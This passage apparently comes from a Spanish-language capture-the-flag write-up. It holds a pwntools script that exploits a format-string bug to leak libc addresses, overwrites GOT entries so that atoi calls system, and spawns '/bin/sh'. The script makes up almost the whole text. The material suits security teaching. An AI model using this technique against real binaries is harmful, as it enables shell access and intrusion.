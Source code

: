 ```python
    log.info(f"Received:\n{hexdump(res)}")
    return res

if args.LOCAL:
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

io = start()

log.info(f"puts() GOT address: {hex(exe.got['puts'])}")
log.info(f"atoi() GOT address: {hex(exe.got['atoi'])}")

fmt_first_offset = 43

loop_main_fmt, loop_main_address = fmtstr_split(fmt_first_offset + 2, {exe.got["pow"]: exe.symbols["main"]}, numbwritten = 0x25)
io = start()
output = send_format(io, f"%{fmt_first_offset}$s.%{fmt_first_offset + 1}$s.".encode("ascii") + loop_main_fmt, p64(exe.got["puts"]) + p64(exe.got["atoi"]) + loop_main_address)
puts_addr_str, atoi_addr_str, *rest = output.split(b".")
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
atoi_addr = int.from_bytes(atoi_addr_str, "little") 
log.info(f"atoi() runtime address: {hex(atoi_addr)}")

libc.address = puts_addr - libc.symbols["puts"]
assert(libc.address & 0xFFF == 0)

log.info(f"LibC base address: {hex(libc.address)}")

atoi_to_system_fmt, atoi_to_system_address = fmtstr_split(fmt_first_offset, {exe.got["atoi"]: libc.symbols["system"]}, numbwritten = 0x17)
send_format(io, atoi_to_system_fmt, atoi_to_system_address)

send_payload(io, "/bin/sh", "dummy")

io.interactive()
```

Ya solo queda imprimir la flag con *cat*.